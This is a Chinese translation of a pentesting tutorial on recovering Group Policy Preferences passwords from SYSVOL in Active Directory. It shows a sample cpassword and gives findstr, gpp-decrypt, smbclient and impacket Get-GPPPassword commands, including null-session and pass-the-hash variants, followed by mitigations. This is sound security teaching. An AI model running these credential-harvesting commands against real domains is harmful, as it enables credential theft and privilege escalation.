

# 攻击 GPP(组策略首选项)凭据| Active Directory 测试

> 原文：<https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a?source=collection_archive---------1----------------------->

*一种非常常见且*容易的攻击，提供存储在 SYSVOL 共享中的用户凭证，可用于获取外壳或提升权限*。*



## 背景:

组策略首选项(GPP)允许管理员创建带有嵌入式凭据的域策略。等等，GPP 是什么？

> 组策略首选项是组策略客户端扩展的集合，这些扩展向运行 Microsoft Windows 桌面和服务器操作系统的加入域的计算机提供首选项设置。

简而言之，GPP 是一种工具，它为管理员提供了一些高级功能，用于在 Windows 域网络中配置和管理帐户策略。

这些策略允许他们设置本地帐户，并为各种目的嵌入凭据，否则可能需要在脚本中嵌入密码。因此，当生成新的组策略首选项(GPP)时，会在 SYSVOL 共享中创建一个包含配置数据的 xml 文件(通常为 Groups.xml ),包括与 GPP 关联的任何密码，SYSVOL 共享是域控制器上的文件夹，所有经过身份验证的域用户都可以访问和读取这些文件夹。

出于保护目的，微软在将密码存储为“cpassword”之前，会使用 AES 对其进行加密。但是钥匙可以在 [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) 上公开获得！

域组策略存储在:

```
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```

存储在 XML 文件中的 cpassword 如下所示:

```
└─$ cat Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml...
D9BDE98BA1D1}" name="**active.htb\SVC_TGS**" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" **cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"** changeLogon="0" noChange="1" 
...
```

因此，在某些情况下，我们可以读取这些文件:

*   我们在系统上已经有了一个低特权 shell，所以我们可以在 SYSVOL 共享中搜索 XML 文件。
*   由于允许来宾访问，我们能够匿名访问 SMB 文件共享(无需任何密码),并且该共享托管了 XML 文件。
*   暴露或允许访问 XML 文件任何其他漏洞。

**受影响的系统:**

微软在这里列出了受影响的系统[。](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025#affected-and-non-affected-software)

## 剥削:

有许多方法可以找到并轻松解密密码，例如:

1.  如果我们已经有了 **shell 访问**，那么我们可以搜索字符串，因为关键字“cpassword”的值等于密码:

```
findstr /S /I cpassword \\<DOMAIN>\sysvol\<DOMAIN>\policies\*.xml
```

然后使用 kali 工具对其进行解密，以获得明文密码，该密码稍后可用于提升权限:

```
gpp-decrypt <hash>
```

2.如果允许我们作为来宾连接到任何共享，那么我们可以从 SYSVOL 上的文件中找到 cpassword 值，并将它们传递给 gpp-decrypt:

```
$ smbclient \\\\ip_address\\share> mget * (to list all the files including policies)
```

3.使用 impacket 模块 [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) 搜索并转储密码:

```
#with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'#with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'#pass the hash(with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'#parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```

4.使用 powersploit 模块 [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) 或 Metasploit 模块'*辅助/扫描仪/smb/smb_enum_gpp'* 或'*post/windows/gather/credentials/GPP '*自动查找并获取明文密码。

## 缓解措施:

*   在每台计算机上安装 MS14–025 中所述的 [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) ，用于防止新凭证被添加到组策略首选项中。
*   删除 SYSVOL 中任何包含密码的现有 GPP xml 文件。
*   密码不应存储在所有经过身份验证的用户都可以使用的文件中。

非常感谢您的阅读。在 [Twitter](https://twitter.com/jaiguptanick) 、 [Linkedin](https://www.linkedin.com/in/jaiguptanick/) 、 [Youtube](https://www.youtube.com/channel/UCGvgjzkWyrYaTzJsDlTGB9g) 上与我联系。

*参考文献:*

*   [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
*   [https://docs . Microsoft . com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn 581922(v = ws . 11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11))
*   [https://www . rapid 7 . com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pw nage/](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！